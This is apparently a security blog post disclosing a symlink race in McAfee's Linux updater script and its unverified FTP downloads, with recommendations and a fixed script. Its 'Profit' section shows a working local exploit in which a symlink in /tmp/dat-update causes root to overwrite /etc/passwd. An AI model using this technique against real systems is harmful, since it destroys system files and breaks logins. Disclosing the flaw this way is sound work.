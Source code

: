 ```yaml
---
layout: post
title: McAfee Updater - I just shat on your filesystem
dsecription: McAfee Linux updater vulnerability
fullview: true
---
```


This document discusses a vulnerability in McAfee's updater. The download for this, and a KB article discussing it, is found here:
[https://kc.mcafee.com/corporate/index?page=content&id=KB67513](https://kc.mcafee.com/corporate/index?page=content&id=KB67513) 

### Background

It is stated by McAfee:
NOTE: The attached script is only an example of how to automate the update process and is not officially supported by McAfee Technical Support. Please also see KB67821 - DAT files are not removed from the /tmp/dat-update directory for a known issue with respect to this script when using the /sbin/sh shell.
The discussed KB article:
https://kc.mcafee.com/corporate/index?page=content&id=KB67821
How can McAfee actually expect you to operate a virus scanner without a regular update process? Either we accept the product as effectively useless, or we produce a better update process.
UVscan itself has been the subject of an identical symlink bug, for which McAfee released a security fix back in 2008.

https://kc.mcafee.com/corporate/index?page=content&id=KB51216


### Breaking the script down

Upon unzipping, some interesting parts of the script are:

- Insists you set an email address. This implies the script has some sort of alerting capabilities. No. It just uses it to logon to an FTP server as a password.
- Run a "mkdir -p $tmp_dir". $tmp_dir defaults to /tmp/dat-update. Note the -p. If folder already exists - that's OK.
- Now check $tmp_dir exists. Duh.
- Download, from ftp.nai.com, avvdat.ini. McAfee link their own KB articles using SSL, where you have security against DNS hijacks. Why use FTP here?
- A tonne of shell scripting to parse avvdat.ini and get the latest version DAT file out of it, and the DAT file MD5.
- Download a ZIP file of the latest DAT
- Compare the MD5 of the downloaded file with the hash earlier downloaded from the same FTP site
- Unzip our DAT files over the top of our live ones.
- Do some integrity checking. Do nothing but error if there's a problem.

### Issues with this are

The most obvious of the issues is that there is no integrity on the downloaded files. Anyone who can hijack your DNS can setup their own ftp.nai.com, and store on it, an avvdat.ini file that never changes, preventing you from ever getting an update.
 More interestingly, the exercise to the reader is to utilise this, in combination with the below exploit, to overwrite, for example, /etc/passwd. Finally, with nothing stated anywhere, this script is going to end up run as root. This is a dumb enough move that the script itself should force the user to do otherwise.

### Profit

{% highlight bash %}
[Technion@turbonegro ~]$ echo Setting up the bomb
Setting up the bomb
[Technion@turbonegro ~]$ mkdir /tmp/dat-update
[Technion@turbonegro ~]$ ln -s /etc/passwd /tmp/dat-update/avvdat.ini


[root@turbonegro ~]# head -n 1 /etc/passwd
root:x:0:0:root:/root:/bin/bash
[root@turbonegro ~]# /bin/bash ~/uvscan/updater
Mechanism not supported
Mechanism not supported
KERBEROS_V4 rejected as an authentication type
Local directory now /tmp/dat-update
updater: DAT already up to date (6054.0)
[root@turbonegro ~]# head -n 1 /etc/passwd
[AVV-ZIP]
[root@turbonegro ~]# whoami  
whoami: cannot find name for user ID 0
[root@turbonegro ~]# ruh-roh :(
{% endhighlight %}

### Mitigating facts

A secure umask means the above attack would need to be carried out prior to the first update, or after a cleanup by tmpwatch, which runs by default on many distributions. Some distributions and configurations also remove this directory on reboot, or mount it as a tmpfs. In my opinion, although a secure umask should always be in place, a security application such as a virus scanner should not count on it. I also think this is the least serious of the vulnerabilities.

### Recommendations
- Utilise "least privilege" principle on the updater script
- Utilise the alternate script provided. This script contains information on implementing the above requirement.
- Implement an SSL site for downloads, or digitally sign downloads in a way that can be verified prior to installation.

### Fixed Updater

I cannot stress enough this only resolves the symlink issue demonstrated above. It does not solve any issues to do with the fact there is no verification on the source these files are downloaded from. To implement a highly paranoid downloader script, see here: [uvupdater.pl](/assets/downloads/uvupdater.pl). Instructions on its use are contained within its headers.

